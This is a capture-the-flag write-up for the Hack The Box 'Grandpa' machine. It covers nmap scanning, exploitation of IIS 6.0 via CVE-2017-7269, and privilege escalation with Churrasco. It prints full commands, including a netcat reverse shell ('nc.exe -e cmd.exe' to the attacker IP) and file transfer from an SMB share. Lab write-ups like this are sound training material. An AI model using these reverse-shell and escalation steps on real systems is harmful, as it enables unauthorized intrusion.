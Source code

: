 # [Grandpa](https://app.hackthebox.com/machines/grandpa)


```bash
nmap -p- --min-rate 10000 10.10.10.14 -Pn
```

![Alt text](img/image.png)


I see just (port 80) is open, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p80 10.10.10.14 -Pn
```

![Alt text](img/image-1.png)


I see that it is 'IIS httpd 6.0' version which should be vulnerable as because it is old version.


I found exploit whose id is [CVE-2017-7269](https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269).


Let's use this exploit.

```bash
python2 script.py 10.10.10.14 80 10.10.16.8 1337
```

![Alt text](img/image-2.png)


I got reverse shell from port (1337).

![Alt text](img/image-3.png)


I cannot find any flag with this user, let's look at the privileges of this user via `whoami /priv` command.

![Alt text](img/image-4.png)


I found privilege escalation [exploit](https://github.com/Re4son/Churrasco.git) for 'SeImpersonatePrivilege', let's use this.


I open SMB share via `impacket` module's script to send `nc.exe` and `churrasco.exe` into target machine.

```bash
python3 /usr/share/doc/python3-impacket/examples/smbserver.py share .
```
![Alt text](img/image-5.png)

Then, I need to get this files on target machine.
```bash
copy \\10.10.16.8\share\nc.exe .
copy \\10.10.16.8\share\churrasco.exe .
```

![Alt text](img/image-6.png)


Let's use this exploit against our target.

```bash
.\churrasco.exe -d "C:\wmpub\nc.exe -e cmd.exe 10.10.16.8 1338"
```

![Alt text](img/image-7.png)


I got reverse shell from port (1338).

![Alt text](img/image-8.png)


user.txt and root.txt

![Alt text](img/image-9.png)